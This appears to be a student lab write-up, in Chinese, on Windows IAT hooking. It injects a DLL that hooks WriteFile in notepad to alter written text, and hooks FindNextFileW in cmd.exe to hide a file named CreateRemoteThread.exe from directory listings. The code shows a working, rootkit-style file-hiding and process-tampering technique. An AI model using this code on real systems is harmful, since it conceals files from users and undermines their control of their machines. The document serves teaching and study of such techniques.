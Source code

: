 # API Hook

## 实验过程

### hook WriteFile

- 使用`dumpbin /imports C:/Windows/SysWOW64/notepad.exe`
- 编写`hook-WriteFile.c`，并生成`hooklib.dll`（由于并不需要导出函数，因此其`exp.def`仅含有`LIBRARY  hooklib`一条语句）
- 该 DLL 使得其被加载时执行`IATHook`操作，从而将原`WriteFlie`函数的地址替换为`Fake_WriteFile`函数的地址
    ```c
    // hook-WriteFile.c
    #include<Windows.h>

    // 函数定义在 IATHook.c 中
    LONG IATHook(
        __in_opt void* pImageBase,
        __in_opt char* pszImportDllName,
        __in char* pszRoutineName,
        __in void* pFakeRoutine,
        __out HANDLE* phHook);

    void* GetIATHookOrign(__in HANDLE hHook);

    HANDLE g_hHook_WriteFile = NULL;
    typedef BOOL(__stdcall * LPFN_WriteFile)(HANDLE hFile, LPCVOID lpBuffer, DWORD nNumberOfBytesToWrite,
        LPDWORD lpNumberOfBytesWritten, LPOVERLAPPED lpOverlapped);

    BOOL __stdcall Fake_WriteFile(HANDLE hFile, LPCVOID lpBuffer, DWORD nNumberOfBytesToWrite,
        LPDWORD lpNumberOfBytesWritten, LPOVERLAPPED lpOverlapped)
    {
        LPFN_WriteFile fnOrigin = (LPFN_WriteFile)GetIATHookOrign(g_hHook_WriteFile);

        if (strcmp(lpBuffer, "hahaha") == 0)
            lpBuffer = "hehehe";

        // 调用原始的 WriteFile 函数
        return fnOrigin(hFile, lpBuffer, nNumberOfBytesToWrite, lpNumberOfBytesWritten, lpOverlapped);
    }

    BOOL WINAPI DllMain(
        HINSTANCE hinstDLL,  // handle to DLL module
        DWORD fdwReason,     // reason for calling function
        LPVOID lpReserved)  // reserved
    {
        // Perform actions based on the reason for calling.
        switch (fdwReason)
        {
        case DLL_PROCESS_ATTACH:
            // Initialize once for each new process.
            IATHook(
                GetModuleHandleW(NULL),
                "kernel32.dll",
                "WriteFile",
                Fake_WriteFile,
                &g_hHook_WriteFile
            );
            // Return FALSE to fail DLL load.
            break;
        }
        return TRUE;  // Successful DLL_PROCESS_ATTACH.
    }
    ```
- 为远程进程创建加载 DLL 的线程
- 注入成功、远程线程结束后，`IATHook`的效果对当前被注入进程永久有效

### hook FindNextFileW

- 使用`FindFirstFileW`函数和`FindNextFileW`函数来遍历指定目录，并获得目录下所有文件
  - 使用`Dependency`查看，`FindFirstFileW`函数和`FindNextFileW`函数均位于`KERNEL32.DLL`
  <img src="img/imports.jpg" alt="查看导出函数所属模块" width=500>
![实际参与匹配的模块名](img/actual-used.jpg)
- `FindFirstFileW`函数用于获取目录句柄，遍历目录使用的是`FindNextFileW`函数，因此只需要钩取`FindNextFileW`函数
  ```c
  HANDLE g_hHook_FindNextFileW = NULL;
  typedef BOOL(__stdcall* LPFN_FindNextFileW)(HANDLE hFindFile, LPWIN32_FIND_DATAW lpFindFileData);

  BOOL WINAPI Fake_FindNextFileW(HANDLE hFindFile, LPWIN32_FIND_DATAW lpFindFileData)
  {
	  LPFN_FindNextFileW fnOrigin = (LPFN_FindNextFileW)GetIATHookOrign(g_hHook_FindNextFileW);
	  BOOL status = fnOrigin(hFindFile, lpFindFileData);
	  if (wcscmp(lpFindFileData->cFileName, L"CreateRemoteThread.exe") == 0)
      // 当遇到文件名为 CreateRemoteThread.exe 的文件，就再获取下一个，这样就越过了
		  status = fnOrigin(hFindFile, lpFindFileData);
	  return status;
  }

  // 修改 DLLMain 中调用 IATHook 函数的传入参数
  IATHook(
		GetModuleHandleW(NULL),
		"API-MS-WIN-CORE-FILE-L1-1-0.dll",
		"FindNextFileW",
		Fake_FindNextFileW,
		&g_hHook_FindNextFileW
  );
  ```
- 实验效果展示，可以看到被攻击的`cmd.exe`使用`dir`时，无法显示目录下的`CreateRemoteThread.exe`：<br>

  <img src="img/display-none.jpg" alt="成功隐藏" width=600>

## 参考资料

- [iathook](https://github.com/tinysec/iathook)
- [WriteFile function](https://docs.microsoft.com/zh-cn/windows/win32/api/fileapi/nf-fileapi-writefile)
- [FindNextFileW function](https://docs.microsoft.com/zh-cn/windows/win32/api/fileapi/nf-fileapi-findnextfilew)
- [Listing the Files in a Directory](https://docs.microsoft.com/zh-cn/windows/win32/fileio/listing-the-files-in-a-directory)
- [wcscmp](http://www.cplusplus.com/reference/cwchar/wcscmp/)